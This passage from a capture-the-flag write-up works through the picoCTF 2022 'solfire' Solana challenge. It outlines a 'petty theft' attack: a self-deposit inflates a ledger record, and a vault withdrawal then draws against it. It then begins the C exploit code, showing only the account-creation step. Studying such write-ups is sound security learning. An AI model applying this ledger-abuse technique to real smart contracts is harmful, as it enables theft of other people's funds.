 ## Petty Theft

Let's now attempt the first attack that came to mind in [Part I]({% link _reference/hacking-101/picoctf-2022-greatest-hits/solfire.md %}):

1. Create the ledger account with `handle_create`
2. Call `handle_deposit` with **both** account 3 and account 4 set to *user*. This will transfer funds from the *user* to *user* while incrementing the ledger's "deposit" record.
3. Call `handle_withdraw` with account 3 as *user* and account 4 as *vault*. If we use the same ledger entry from step 2 then we will be able to withdraw up to the amount of lamports already recorded in the ledger.

Since we know we are left with 9 lamports after step 1, we will just hardcode the transfers to use 9 lamports. For convenience, we will simply use entry #0 in the ledger.

<div class="panel-group">
  <div class="panel panel-info">
    <div class="panel-heading">
      <h3 class="panel-title">
        <a data-toggle="collapse" href="#collapseCode" aria-expanded="false" aria-controls="collapseCode">
        Code for petty-theft <small>(click to expand)</small>
        <i class="glyphicon glyphicon-menu-left pull-right"></i>
        <i class="glyphicon glyphicon-menu-down pull-right"></i>
        </a>
      </h3>
    </div>
    <div id="collapseCode" class="panel-collapse collapse">
<div class="panel-body" markdown="1">

```c
#include <solana_sdk.h>

// required order of params
#define CLOCK 0
#define SYSTEM 1
#define LEDGER 2
#define VAULT 3
#define USER 4
#define SOLFIRE 5

void solfire_create(SolParameters *params, uint8_t ledger_nonce)
{
  sol_log("crEate!");
  
  // There must be exactly 5 addresses
  SolAccountMeta meta[] = {
    {params->ka[CLOCK].key /* clock */, false, false},
    {params->ka[SYSTEM].key /* system */, false, false}, /* must be system */
    {params->ka[LEDGER].key /* ledger */, true, false}, /* "ledger" */
    {params->ka[VAULT].key /* vault */, false, false}, /*not used */
    {params->ka[USER].key /* user */, true, true}, /* funding account - must be writeable, must be signed */
  };

  uint8_t buf[5] = {0};
  buf[0] = 0; //[0-4] code - 0 is `handle_create`
  buf[4] = ledger_nonce; //[4] nonce

  const SolInstruction instruction = {params->ka[SOLFIRE].key /* program */, 
                                      meta, SOL_ARRAY_SIZE(meta),
                                      buf,  SOL_ARRAY_SIZE(buf)};

  sol_invoke_signed(&instruction, params->ka, params->ka_num, (SolSignerSeeds*)0, 0);
}

```